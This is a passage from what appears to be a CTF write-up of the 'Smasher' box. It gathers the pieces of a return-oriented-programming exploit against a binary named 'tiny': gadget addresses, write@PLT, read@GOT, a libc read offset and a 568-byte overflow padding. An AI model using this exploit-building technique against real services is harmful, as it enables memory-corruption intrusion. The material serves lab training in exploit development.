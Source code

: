 So we have all of them:

``` python

# gadgets
poprdiret = 0x4011dd # pop rdi; ret
poprsiret = 0x4011db # pop rsi; pop r15; ret
push_rsp  = 0x023ad1 # push rsp; ret
```

Next, let\'s find read@got and read offset in libc address and write
@plt address.

We can see address of write@plt if we disassemble process function.
There\'s a call to it:

![](/images/smasher-2018-11-22/2025-01-18_19-17-16_image.png)

``` example
0x00000000004010e9 <+41>: call   0x400c50 <write@plt>
```

That\'s done, now on to read@GOT.

``` bash

root@--name:/ctf/work# objdump -R tiny | grep read
0000000000603088 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5
```

And lastly we need read() offset from libc.

``` bash

root@--name:/ctf/work# readelf -s libc.so.6 | grep read@
....
891: 00000000000f7250    90 FUNC    WEAK   DEFAULT   13 read@@GLIBC_2.2.5
```

Let\'s write that down, so far we have:

``` python

# padding to RIP
padding = "A" * 568

# got and plt
read_got = 0x603088 # read()@GOT address
write_plt = 0x400c50 # write()@PLT address

# offsets
read_off = 0x0f7250 # read() offset from libc base

# gadgets
poprdiret = 0x4011dd # pop rdi; ret
poprsiret = 0x4011db # pop rsi; pop r15; ret
push_rsp  = 0x023ad1 # push rsp; ret
```